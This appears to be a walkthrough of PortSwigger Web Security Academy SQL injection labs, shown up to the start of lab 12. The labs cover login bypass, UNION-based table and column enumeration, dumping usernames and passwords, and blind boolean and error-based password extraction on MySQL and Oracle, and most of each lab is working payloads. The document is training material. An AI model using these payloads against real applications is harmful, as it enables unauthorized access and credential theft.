01 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
================================================================================

This lab contains a SQL injection vulnerability in the product category filter.
When the user selects a category, the application carries out a SQL query like
the following:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

To solve the lab, perform a SQL injection atta

Reference: https://portswigger.net/web-security/sql-injection

When the buttons are clicked it is filtered by category:



This is done with a GET request:



Using the following payload we get 4 items instead of only 3, because it shows
both the released and the hidden one:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'-- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



To show all values we add OR 1=1 to display all categories:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+OR+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



02 SQL injection vulnerability allowing login bypass
====================================================

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application
as the administrator user.

Reference: https://portswigger.net/web-security/sql-injection

The login functionality works with a POST request:



Using the following payload in the password field it is possible to login:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
'+or'1'='1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



03 SQL injection UNION attack, determining the number of columns returned by the query
======================================================================================

This lab contains a SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response, so you
can use a UNION attack to retrieve data from other tables. The first step of
such an attack is to determine the number of columns that are being returned by
the query. You will then use this technique in subsequent labs to construct the
full attack.

To solve the lab, determine the number of columns returned by the query by
performing a SQL injection UNION attack that returns an additional row
containing null values.

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

We see there are 2 values displayed in the table, the name and the price of the
products:



The following payload is accepted and we see the 4 items from Accessories
category:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



The same happens with this payload, to display all values:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We will update the payload to execute a UNION attack and find the query takes 3
parameters and not 2:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'+union+select+NULL,NULL,NULL--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We can also add values instead of using NULL:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'+union+all+select+'0','1','2'--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



04 SQL injection UNION attack, finding a column containing text
===============================================================

This lab contains a SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response, so you
can use a UNION attack to retrieve data from other tables. To construct such an
attack, you first need to determine the number of columns returned by the query.
You can do this using a technique you learned in a previous lab. The next step
is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the
query results. To solve the lab, perform a SQL injection UNION attack that
returns an additional row containing the value provided. This technique helps
you determine which columns are compatible with string data.

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

We see there are 2 values displayed in the table, the name and the price of the
products:



We find these payload are valid to display the 4 items in Accessories and all
the items:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'--
/filter?category=Accessories'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 3 columns returned by the query and we can do a UNION
attack with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'+union+all+select+NULL,NULL,NULL--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can print the string Qrc0Pq setting this string in the second value of the
attack:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Accessories'+union+all+select+'0','Qrc0Pq','1234'--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



05 SQL injection UNION attack, retrieving data from other tables
================================================================

This lab contains a SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response, so you
can use a UNION attack to retrieve data from other tables. To construct such an
attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called
username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all
usernames and passwords, and use the information to log in as the administrator
user.

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

We see there are 2 values displayed in the table, the description and the
content of the post:



We find these payload are valid to display the 4 posts in Gifts and the second
all the items:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 2 columns returned by the query and we can do a UNION
attack with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,NULL--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Knowing the table and database names we can retrieve the content from users
using the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+username,password+from+users--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



06 SQL injection UNION attack, retrieving multiple values in a single column
============================================================================

This lab contains a SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can
use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called
username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all
usernames and passwords, and use the information to log in as the administrator
user.

Hint: You can find some useful payloads on our SQL injection cheat sheet.

References:

-   https://portswigger.net/web-security/sql-injection/union-attacks

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

We see there is 1 value displayed in the table, the name of the product:



We find these payload are valid to display the 4 items in Gifts and the second
all the items:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 2 columns returned by the query and we can do a UNION
attack with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,NULL--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We can print strings using the second column in the attack and concatenate
strings using CONCAT:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,CONCAT('foo','bar')--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We can get content from both columns using SELECT CONCAT(username,':',password)
from users:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,CONCAT(username,':',password)+from+users--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



07 SQL injection attack, querying the database type and version on Oracle
=========================================================================

This lab contains a SQL injection vulnerability in the product category filter.
You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Hint: On Oracle databases, every SELECT statement must specify a table to select
FROM. If your UNION SELECT attack does not query from a table, you will still
need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this
purpose. For example: UNION SELECT 'abc' FROM dual

References:

-   https://portswigger.net/web-security/sql-injection/examining-the-database

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

We see there are 2 values displayed in the table, the description and the
content of the post:



We find these payload are valid to display the 4 posts in Gifts and the second
all the items:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 2 columns returned by the query and we can do a UNION
attack with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,NULL+FROM+dual-- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We are adding the “FROM dual” because it is necessary in Oracle.

To display the version we need to execute one of these:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT banner FROM v$version
SELECT version FROM v$instance
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version-- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



With v\$instance the server returns an error message.

08 - SQL injection attack, querying the database type and version on MySQL and Microsoft
========================================================================================

This lab contains a SQL injection vulnerability in the product category filter.
You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database
retrieve the string: '8.0.32-0ubuntu0.20.04.2')

Reference: https://portswigger.net/web-security/sql-injection/cheat-sheet

Generated link:
https://0aab0018030112cfc1c781f9007c009c.web-security-academy.net/

Filtering using GET parameter “category”: "/filter?category=Accesories"

/filter?category=Accesories -\> Return 4 items

/filter?category=Accessories';\# -\> Return 4 items, the query is finished

/filter?category=Accessories'+and+'1'='1 -\> Return 4 items

/filter?category=Accessories'+and+'1'='0 -\> Return 0 items

/filter?category=Accessories'+union+select+0,\@\@version;\# -\> Print version

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /filter?category=Accessories'+union+select+0,@@version;# HTTP/2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



09 SQL injection attack, listing the database contents on non-Oracle databases
==============================================================================

This lab contains a SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can
use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that
holds usernames and passwords. You need to determine the name of this table and
the columns it contains, then retrieve the contents of the table to obtain the
username and password of all users.

To solve the lab, log in as the administrator user.

References:

-   https://portswigger.net/web-security/sql-injection/examining-the-database

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

We see there are 2 values displayed in the table, the description and the
content of the post:



We find these payload are valid to display the 4 posts in Gifts and the second
all the items:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 2 columns returned by the query and we can do a UNION
attack with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,NULL-- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can get the table names listing TABLE_NAME from information_schema.tables:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+'1',TABLE_NAME+from+information_schema.tables--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Next list the columns in the table “users_vptjgu” with something like:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT * FROM information_schema.columns WHERE table_name = 'users_vptjgu'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+'1',COLUMN_NAME+from+information_schema.columns+WHERE+table_name+=+'users_vptjgu'--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get 2 column names:



Next we must show the content of the table:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT username_lvfons,password_femvin FROM users_vptjgu
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+username_lvfons,password_femvin+from+users_vptjgu--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



10 SQL injection attack, listing the database contents on Oracle
================================================================

This lab contains a SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can
use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that
holds usernames and passwords. You need to determine the name of this table and
the columns it contains, then retrieve the contents of the table to obtain the
username and password of all users.

To solve the lab, log in as the administrator user.

Hint: On Oracle databases, every SELECT statement must specify a table to select
FROM. If your UNION SELECT attack does not query from a table, you will still
need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this
purpose. For example: UNION SELECT 'abc' FROM dual

References:

-   https://portswigger.net/web-security/sql-injection/examining-the-database

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

We see there are 2 values displayed in the table, the description and the
content of the post:



We find these payload are valid to display the 4 posts in Gifts and the second
all the items:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'--
/filter?category=Pets'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 2 columns returned by the query and we can do a UNION
attack with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'+union+all+select+NULL,NULL+from+dual--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

List the table names with

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT table_name from all_tables
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'+union+all+select+'1',table_name+from+all_tables--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



The interesting one seems “USERS_XWRQEE”.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT COLUMN_NAME from all_tab_columns WHERE table_name = 'USERS_XWRQEE'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'+union+all+select+'1',COLUMN_NAME+from+all_tab_columns+WHERE+table_name+=+'USERS_XWRQEE'--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Finally:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT USERNAME_KIWRQE,PASSWORD_OCABHB from USERS_XWRQEE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Pets'+union+all+select+USERNAME_KIWRQE,PASSWORD_OCABHB+from+USERS_XWRQEE--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



11 Blind SQL injection with conditional responses
=================================================

This lab contains a blind SQL injection vulnerability. The application uses a
tracking cookie for analytics, and performs a SQL query containing the value of
the submitted cookie.

The results of the SQL query are not returned, and no error messages are
displayed. But the application includes a "Welcome back" message in the page if
the query returns any rows.

The database contains a different table called users, with columns called
username and password. You need to exploit the blind SQL injection vulnerability
to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: You can assume that the password only contains lowercase, alphanumeric
characters.

References:

-   https://portswigger.net/web-security/sql-injection/blind

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

There is a SQL injection in the cookie:



The message “Welcome back!” appears with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+'1'='1;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



And it does not appear with:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+'1'='0;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



To test if the first letter of the password is “s” I will send:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,1)='s
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username='administrator'),1,1)='s
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I sent it to the intruder and test the length sending all the letters including
“s”:



So we know the first letter of the administrator's password is “s” and we can
test the second letter:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,2)='ss
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=WrJLQvH7F2RO6KVc'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username='administrator'),1,2)='ss
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



It is better to update just the number of letter and test only one letter every
time:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),1,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),2,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),3,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),4,1)='a
c' AND SUBSTRING((SELECT Password FROM Users WHERE Username='administrator'),5,1)='a
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

I continued until retrieving the password “ssmyivfjyj5m1bvch02g”.

12 Blind SQL injection with conditional errors
==============================================

This lab contains a blind SQL injection vulnerability. The application uses a
tracking cookie for analytics, and performs a SQL query containing the value of
the submitted cookie.

The results of the SQL query are not returned, and the application does not
respond any differently based on whether the query returns any rows. If the SQL
query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called
username and password. You need to exploit the blind SQL injection vulnerability
to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Hint: This lab uses an Oracle database. For more information, see the SQL
injection cheat sheet.

References:

-   https://portswigger.net/web-security/sql-injection/blind

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

There is a SQL injection in the cookie. First we find we do not get errors with
the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE'+and'1'='1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Cookie: TrackingId=9HCLCYU9VeK78knn'+and'1'='1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



In MySQL it would be:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
COOKIE' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

But it is Oracle so we must use:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
COOKIE' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+(1=1)+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
9HCLCYU9VeK78knn'+AND+(SELECT+CASE+WHEN+(1=2)+THEN+TO_CHAR(1/0)+ELSE+'a'+END+FROM+dual)='a;
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

With 1=1 we get a 500 error code:



With 1=2 we get a 200 code:



For the first letter of the administrator user's password we will user (using
SUBSTR because it is Oracle):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
COOKIE' AND (SELECT CASE WHEN ((SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1))='a') THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
